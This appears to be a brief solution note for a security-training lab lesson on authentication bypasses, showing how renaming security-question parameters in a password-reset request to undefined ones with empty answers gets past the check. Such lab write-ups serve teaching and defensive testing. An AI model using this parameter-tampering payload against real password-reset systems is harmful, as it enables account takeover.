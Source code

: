 # (A2) Authentication bypasses

## Lesson 2 - 2FA Password Reset
Bypass security questions:
```
secQuestion0=aaa&secQuestion1=bbb&jsEnabled=...
```

Change query params to:
```
secQuestion7=secQuestion8=&jsEnabled=..
```
Answers for those questions are not defined (empty).
